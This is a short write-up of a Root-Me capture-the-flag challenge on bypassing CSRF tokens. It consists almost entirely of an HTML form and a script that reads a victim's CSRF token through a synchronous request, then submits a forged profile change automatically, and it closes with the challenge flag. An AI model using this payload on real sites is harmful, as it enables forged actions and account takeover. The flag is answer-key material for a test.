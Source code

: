 # CSRF - token bypass

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FTienNHM%2Froot-me-ctf%2Ftree%2Fmaster%2FWeb-Client%2FCSRF%2520-%2520token%2520bypass&count_bg=%2379C83D&title_bg=%232D8FFF&icon=markdown.svg&icon_color=%23092753&title=Visitors&edge_flat=false)](https://hits.seeyoufarm.com)

/ch23/?action=contact

```html
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
	<input id="username" type="text" name="username" value="user">
	<input id="status" type="checkbox" name="status" checked >
	<input id="token" type="hidden" name="token" value="" />
	<button type="submit">Submit</button>
</form>

<script>
	xhttp = new XMLHttpRequest();
	xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
	xhttp.send();
	token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));
	document.getElementById('token').setAttribute('value', token_admin);
	document.csrf_form.submit();
</script>
```

/ch23/?action=private
> Good job dude, flag is : Byp4ss_CSRF_T0k3n-w1th-XSS

